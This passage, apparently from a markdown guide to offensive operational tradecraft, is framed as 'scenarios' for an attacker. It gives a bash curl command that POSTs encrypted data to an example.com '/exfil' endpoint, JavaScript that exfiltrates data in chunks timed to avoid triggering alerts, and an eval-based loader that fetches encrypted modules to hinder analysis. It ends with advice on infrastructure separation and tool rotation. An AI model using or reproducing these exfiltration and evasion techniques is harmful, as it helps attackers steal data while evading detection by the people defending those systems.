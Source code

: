```bash
    # Then send the encrypted data
    curl -X POST \
        -H "X-Payload-Type: data" \
        -H "X-Encryption-Method: gpg" \
        -d "$encrypted_data" \
        https://example.com/exfil
fi
```

Scenario: When exfiltrating sensitive data:
1. Generate a secure random key for each session
2. Encrypt data using industry-standard methods (GPG/AES)
3. Send the key and encrypted data separately
4. Use standard HTTP headers and JSON formatting
5. Break large data into chunks and send gradually

```javascript
function exfiltrateData(data) {
    const chunks = chunkData(data, 1024);
    chunks.forEach((chunk, index) => {
        setTimeout(() => {
            sendData(chunk);
        }, index * 60000); // Send a chunk every minute
    });
}
```

Scenario: When exfiltrating large amounts of data, break it into small chunks and send them at regular intervals to avoid sudden large data transfers that might trigger alerts.

### Tool Development

- Develop modular tools for on-target assembly.
- Implement anti-analysis techniques.
- Use code signing and certificate pinning.

Example:
```javascript
function loadModule(moduleName) {
    const moduleCode = fetchEncryptedModule(moduleName);
    const decryptedCode = decryptModule(moduleCode);
    return eval(decryptedCode);
}
```

Scenario: Instead of deploying a full toolkit, fetch and load encrypted modules on-demand to reduce the footprint and complicate analysis of your tools.

### Operational Practices

- Use separate infrastructure for each operation.
- Implement time-zone and working hour restrictions.
- Regularly rotate tools, techniques, and infrastructure.
